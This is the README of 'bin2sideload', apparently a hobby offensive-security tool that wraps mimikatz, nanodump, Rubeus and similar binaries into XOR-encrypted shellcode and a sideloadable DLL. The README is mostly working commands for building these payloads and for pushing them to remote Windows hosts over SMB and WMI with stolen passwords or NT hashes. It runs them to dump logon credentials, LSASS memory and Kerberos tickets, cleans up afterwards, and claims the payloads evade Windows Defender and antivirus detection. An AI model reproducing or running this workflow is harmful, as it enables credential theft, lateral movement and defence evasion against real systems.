

# bin2sideload

Create XOR encrypted shellcode and Sideload-able DLL from a PE binary or .NET Assembly. Use linux-based tools like `dll_proxy_exec.py` or nxc to automatically transfer, dll sideload, execute payload, and cleanup. 

For now, the only supported sideloading is `disksnapshot.exe` and `cryptbase.dll`. 
 


[Credits](#credit)

This is just a hobby/poc script that was created over a weekend, nothing serious. I just yoinked [@icyguider](https://twitter.com/icyguider)'s scripts and modified it a bit.

## Installation - Docker (Recommended)

```bash 
docker build . -t bin2sideload
docker run -it -v ${PWD}:/shared bin2sideload 
python3 bin2sideload.py -h 
python3 dll_proxy_exec.py -h 
```

## Installation - Standalone (Not recommended) 
- Install donut, mingw-w64, osslsigncode, make, gcc, impacket, and colorama 
```bash 
# Install mingw-w64 and osslsigncode 
sudo apt update -y; sudo apt install mingw-w64 osslsigncode make gcc -y 

# Install donut on /opt. Hardcoded for now. 
cd /opt 
git clone https://github.com/TheWover/donut.git
cd ./donut 
make 

# Python dependencies 
pip3 install impacket; pip3 install colorama 
```

## Usage

0. Prepare PE binary or .NET assembly to execute, copy to current repo's directory 

```bash
git clone <repo>
cd ./bin2sideload
cp <mimikatz.exe> . 
```

1. Use bin2sideload to first create sideload-able DLL and encrypted shellcode. 

- Example: Nanodump to shellcode (image02.png) using XOR key frog, with parameters. 

```bash
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k frog -p='--fork --write c:\windows\tasks\procdmp-test.abc'

[ . . . ]
[+] 6. Zip encrypted shellcode and cryptbase.dll
[+] Final Zip file: go-quwjrjhv.zip
```

2. Use various ways to transfer the Zip file (or individual DLL/shellcode). Using `dll_proxy_exec.py` is recommended. 

### Execute via dll_proxy_exec.py (Recommended)

Use dll_proxy_exec.py to automatically transfer, unzip, sideload/execute the DLL, and cleanup. 

```bash
# Example - creds 
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-ngvnjout.zip -e disksnapshot.exe -output

# Example - NT 
python3 dll_proxy_exec.py administrator@192.168.40.132 -H 2b576acbe6bcfda7294d6bd18041b8fe -z go-ngvnjout.zip -e disksnapshot.exe -output
```

### Execute via manual NXC (outdated, deprecated) 
1. Use nxc to move zip file, unzip, sideload, and cleanup. 
```bash
# Example 

nxc smb 192.168.40.132 -u administrator -p 'Password123!' --local-auth --put-file go-umsvcjae.zip \\windows\\tasks\\go-umsvcjae.zip -x 'powershell.exe -c mkdir c:\windows\tasks\go-umsvcjae ; Expand-Archive -Path c:\windows\tasks\go-umsvcjae.zip -DestinationPath c:\windows\tasks\go-umsvcjae ; rm c:\windows\tasks\go-umsvcjae.zip ; cp c:\windows\system32\disksnapshot.exe c:\windows\tasks\go-umsvcjae\disksnapshot.exe ; c:\windows\tasks\go-umsvcjae\disksnapshot.exe'
```

2. Cleanup
```bash
nxc smb <ip> -u <u> -p <p> -x 'rmdir /s /q c:\windows\tasks\go-umsvcjae'
```

## Examples 
Parameter includes double quotes 
```bash
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k emergencyfrog -p='--fork --write \"c:\windows\space dude wow\procdmp-test.abc\"'
```

Rubeus example 
```bash
python3 bin2sideload.py -i Rubeus.exe -o image02.png -k hi -p='dump /service:krbtgt /consoleoutfile:C:\windows\tasks\ignore-roobas.log'
```

Using the barebones .c template instead of HWBP .cpp template example 
```bash
python3 bin2sideload.py -i mimikatz.exe -o uud5329.tmp -k helloworld -p='\"sekurlsa::logonPasswords\" \"exit\"' --template template.c
```

dll_proxy_exec.py with output 
```bash
# Create mimikatz 
python3 bin2sideload.py -i mimikatz.exe -o image02.png -k hi -p='\"sekurlsa::logonPasswords\" \"exit\"'

# Yeet 
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-ngvnjout.zip -e disksnapshot.exe -output

[DEBUG] Zip file triggered!                                                             

[SMB] Uploading zip file...  
[SMB] Uploaded to: C:\Windows\Tasks\go-ngvnjout.zip                                     

[WMI] Extracting zip file from remote host...
[WMI] Extracted to: C:\Windows\Tasks\go-ngvnjout

[WMI] Executing DLL...

[WMI] Cleaning up files...
[WMI] Deleted: C:\Windows\Tasks\go-ngvnjout.zip and C:\Windows\Tasks\go-ngvnjout

[*] Output: 
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

[ . . . ] 
```

"These work on my machine" 
- real time protection + cloud-based protection, 11/12/2023, fully-patched windows
```bash
# .NET like rubeus, seatbelt
wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Rubeus.exe
wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_Any/Seatbelt.exe

python3 bin2sideload.py -i Rubeus.exe -o image02.png -k hi -p='triage /service:krbtgt'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-cunxbhrd.zip -e disksnapshot.exe -output

python3 bin2sideload.py -i Seatbelt.exe -o image02.png -k hi -p='-group=system'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -e disksnapshot.exe -output -z go-jupzvpkh.zip

# PE - mimikatz 
python3 bin2sideload.py -i mimikatz.exe -o image02.png -k hi -p='\"sekurlsa::logonPasswords\" \"exit\"'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -z go-aapcsbvs.zip -e disksnapshot.exe -output

# PE - nanodump 
#    - return no output, but will successfully create the dump anyways
python3 bin2sideload.py -i nanodump.x64.exe -o image02.png -k hi -p='--duplicate-elevate --fork --write c:\windows\tasks\debug-dump.abc'
python3 dll_proxy_exec.py administrator:'Password123!'@192.168.40.132 -e disksnapshot.exe -output -z go-qlnislox.zip
```

## Help
```
python3 bin2sideload.py -h                                                                                      
usage: bin2sideload.py [-h] -i INPUT -o OUTPUT -k KEY [-p PARAM] [-t THREAD] [--template template]

options:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input PE/.NET Assembly filename
  -o OUTPUT, --output OUTPUT
                        Output shellcode filename
  -k KEY, --key KEY     XOR key in string format
  -p PARAM, --param PARAM
                        Parameters that the input file will run with. Example: -p="--fork --write 'c:\program files\hi'"
  -t THREAD, --thread THREAD
                        Enable donut -t thread execution
  --template template   Template file to use. Default: template.cpp
```


## MISC 
- If there's no output, high chance the EDR solution killed the sideloading process and the thread created by the DLL. 

- At least for static analysis from VT, hwbp template is 5/71 and barebones c template is 3/71 (HUH)

## Credit
Striaght up yoinked from
  - https://github.com/icyguider/LatLoader/tree/main
  - https://github.com/icyguider/MoreImpacketExamples#dll_proxy_execpy
all credits to [@icyguider](https://twitter.com/icyguider)

## TODO 

- Currently kind-of hardcoded `c:\windows\tasks` as the root remote path. Ensure to update bin2sideload and dll_proxy_exec so that they allow specifying random remote paths like `c:\temp\defender`, etc. 
- donut's `-t`, `-x`, `-k` (https://github.com/TheWover/donut#4-usage)
